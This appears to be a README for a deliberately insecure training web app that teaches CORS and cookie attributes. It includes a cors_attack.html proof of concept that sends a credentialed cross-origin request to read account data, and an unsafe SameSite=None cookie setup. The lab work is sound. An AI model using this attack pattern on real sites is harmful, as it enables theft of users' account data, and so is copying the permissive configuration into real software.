 ## CORS Playground
### Description

CORS playground provides a simple web application that you can utilise to enhance your comprehension of Cross Origin Resource Sharing. By default, it comes with CORS configured in a very unsafe way and could be easily exploited from different origins.

To make the most out of the CORS playground application, you are highly encouraged to play with the CORS settings and the session's cookie attributes both within the application code as well as different origin values. This cannot be stressed enough, changing the settings mentioned, testing them with different browsers and seeing how both CORS and the session's cookie behave under different configurations will increase your knowledge of these two critical components of web application security.

### Default settings
CORS playground runs over https and listens on port number 5555

### URLs/endpoints
```http
POST /login.html
GET /main_page.html
GET /logout
GET /api/v2/accounts
GET /api/v1/accounts
```

### Example
The following is an example of running CORS playground on your local machine.

1. Add the following entries to the file /etc/hosts (remove the comments). You could use all these domains to test different values of the domain and SameSite cookie attribute.
```bash
127.0.0.1 playground.cors.test               ## Domain for the CORS playground application itself.
127.0.0.1 project.cors.test                  ## Same level domain as playground.cors.test.
127.0.0.1 pts.playground.cors.test           ## Subdomain of playground.cors.test
127.0.0.1 pts.playground.cors.test.com.au    ## domain .com.au
127.0.0.1 cors.test                          ## parent domain of playground.cors.test
127.0.0.1 another.domain.com                 ## A totally different domain
```
2. Run CORS playground with the command `nodejs app.js` then open it up on a browser as `https://playground.cors.test:5555/` and log in.
3. Run an Apache web server over TLS.
4. Paste the following HTML code into a file named cors_attack.html (this file is also provided in this repository) and saved it on your apache webroot which by default is: `/var/www/html/`

```html
<!DOCTYPE html>
<html>
<head><meta charset="UTF-8"></head>
<body>
<script>
 var xhr = new XMLHttpRequest();
 xhr.onreadystatechange = function() {
  if (xhr.readyState == XMLHttpRequest.DONE) {
   console.log(xhr.response);
  }
 }
 url = 'https://playground.cors.test:5555/api/accounts';
 xhr.open('GET',url,true);
 xhr.setRequestHeader('CORS-playground','Penetration Testing Team');
 xhr.withCredentials = true;
 xhr.send();
</script>
</body>
</html>
```
5. Open the following url `https://another.domain.com/cors_attack.html` on a browser and look that the account information is display on the browser console.
6. Use a http proxy such as Burp or the developer tools of the browser to observe the CORS requests/responses.
### Jump in
To keep improving your skills and knowledge of CORS you might like to:

1. Add/delete/modify the attributes of the cookie generated within this application. Look for the line:
```node
res.cookie('session',randomvalue.toString(), { httpOnly: true, secure: true, sameSite: 'None'});
```
 Some setting you could try:
```node
res.cookie('session',randomvalue.toString(), {domain: '.playground.cors.test', httpOnly: true, secure: true, sameSite: 'Lax'});
res.cookie('session',randomvalue.toString(), { httpOnly: true, secure: true, sameSite: 'Strict'});
```
2. In the corsHandler function within the code of this applicaiton, uncomment the the section you'd like to play with and comment the remaining ones.
### References:
1. [CORS tutuorial](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
2. [Same Origin Policy tutorial](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
3. [Cookies tutorial](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
4. [portswigger CORS labs](https://portswigger.net/web-security/cors)
